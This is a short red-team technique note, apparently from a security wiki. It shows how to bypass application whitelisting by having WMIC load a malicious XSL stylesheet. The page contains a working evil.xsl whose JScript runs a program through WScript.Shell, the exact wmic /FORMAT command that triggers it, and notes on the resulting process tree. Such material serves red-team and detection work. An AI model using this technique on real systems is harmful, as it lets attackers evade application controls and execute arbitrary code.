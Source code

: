 # Application Whitelisting Bypass with WMIC and XSL

Another application whitelist bypassing technique discovered by Casey @subTee, similar to squiblydoo:

{% page-ref page="t1117-regsvr32-aka-squiblydoo.md" %}

## Execution

Define the XSL file containing the jscript payload:

{% code-tabs %}
{% code-tabs-item title="evil.xsl" %}
```csharp
<?xml version='1.0'?>
<stylesheet
xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="placeholder"
version="1.0">
<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
	<![CDATA[
	var r = new ActiveXObject("WScript.Shell").Run("calc");
	]]> </ms:script>
</stylesheet>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Invoke any wmic command now and specify /format pointing to the evil.xsl:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
wmic os get /FORMAT:"evil.xsl"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-04-10-22-05-24.png)

## Observation

Calculator is spawned by svchost.exe:

![](../../.gitbook/assets/screenshot-from-2019-04-10-21-57-52.png)

## References

{% embed url="http://subt0x11.blogspot.com/2018/04/wmicexe-whitelisting-bypass-hacking.html" %}



